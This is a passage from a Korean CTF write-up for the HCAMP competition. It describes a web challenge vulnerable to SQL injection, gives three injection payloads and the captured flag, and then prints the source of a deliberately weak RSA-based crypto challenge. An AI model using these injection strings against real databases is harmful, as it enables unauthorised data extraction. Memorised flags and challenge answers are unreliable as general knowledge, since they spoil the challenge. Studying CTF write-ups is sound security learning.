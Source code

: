 
문제 내 서비스는 name과 birth 파라미터를 통해 POST로 합격자 조회를 요청할 수 있다. 그러나 조회 과정에서 사용되는 SELECT 쿼리에 파라미터가 검증 없이 바로 삽입되면서 SQL Injection을 수행할 수 있다. 다음과 같이 다양한 방식의 접근을 통해 문제를 해결할 수 있다.

* `" union select 1, 2, 3, 4, group_concat(name) from prob#`
* `" or 1 limit 36,1#`
* `" or name like "%HCAMP%"#`

#### FLAG

`HCAMP{5D46BCE881C8E9EAAA547453D4E15A21}`

## CRYPTO

### Really Safe A,,,

> 이거이거 정말 안전한데 표현할 방법이 없네,,,

```python
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes
import gmpy2

e = 65537

p = getPrime(1024)
q = getPrime(1024)

N = p * q
phi = (p - 1) * (q - 1)

d = gmpy2.divm(1, e, phi)

def padding(msg):
    total_length = len(msg) + (len(msg) % 2)
    return msg.ljust(total_length, '=')

def really_secret_cipher(plaintext):
    cipher_list = []
    msg = padding(plaintext)

    for ptr in range(0, len(msg)-2, 2):
        M1 = bytes_to_long(msg[ptr:ptr+2].encode())
        C1 = gmpy2.powmod(M1, e, N)
        M2 = bytes_to_long(msg[ptr+2:ptr+4].encode())
        C2 = gmpy2.powmod(M2, e, N)

        super_C = C1 * C2
        cipher_list.append(long_to_bytes(super_C).hex())
   
    return '.'.join(cipher_list)


FLAG = "HCAMP{******}"
if __name__ == '__main__':
    encrypted_flag = really_secret_cipher(FLAG)
    with open('data.enc', 'w') as f:
        print("FLAG : " + FLAG)
        f.write(str(N) + '/' + str(e) + '/' + encrypted_flag)
```
